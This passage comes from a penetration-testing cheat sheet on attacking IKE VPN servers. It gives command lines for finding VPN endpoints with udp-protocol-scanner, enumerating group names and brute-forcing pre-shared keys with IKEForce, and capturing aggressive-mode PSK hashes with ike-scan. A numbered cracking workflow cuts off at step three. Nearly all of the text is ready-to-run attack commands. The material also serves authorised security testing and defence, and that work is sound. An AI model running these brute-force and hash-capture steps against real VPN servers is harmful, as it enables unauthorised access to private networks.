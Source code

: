 Identify VPN servers:

```
./udp-protocol-scanner.pl -p ike TARGET(s)

```

Scan a range for VPN servers:

```
./udp-protocol-scanner.pl -p ike -f ip.txt
```

**IKEForce**

Use IKEForce to enumerate or dictionary attack VPN servers.

Install:

```
pip install pyip
git clone https://github.com/SpiderLabs/ikeforce.git
```

Perform IKE VPN enumeration with IKEForce:

```
./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
```

Bruteforce IKE VPN using IKEForce:

```
./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1
```

```
ike-scan
ike-scan TARGET-IP
ike-scan -A TARGET-IP
ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key
```

**IKE Aggressive Mode PSK Cracking**

1. Identify VPN Servers
2. Enumerate with IKEForce to obtain the group ID
3. Use ike-scan to capture the PSK hash from the IKE endpoint
4. Use psk-crack to crack the hash

**Step 1: Idenitfy IKE Servers**

```
./udp-protocol-scanner.pl -p ike SUBNET/24
```

**Step 2: Enumerate group name with IKEForce**

```
./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
```

**Step 3: Use ike-scan to capture the PSK hash**

